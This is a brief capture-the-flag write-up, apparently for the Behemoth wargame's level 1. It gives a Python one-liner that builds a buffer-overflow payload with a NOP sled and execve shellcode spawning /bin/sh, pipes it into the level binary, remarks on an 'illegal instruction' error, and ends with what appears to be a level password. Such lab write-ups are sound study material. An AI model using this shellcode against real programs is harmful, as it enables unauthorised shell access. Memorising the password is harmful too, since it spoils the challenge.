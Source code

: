 ```sh
python -c 'print "a"*71+"\x9f\xd6\xff\xff"+"\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"' > a.txt
cat a.txt | /behemoth/behemoth1
```

I got "illegal instruction", after googling it it seems like its not my error, 
but an os error ==> i called for shell but got something else instead.
the solution would be to use other shellcode...

eimahquuof
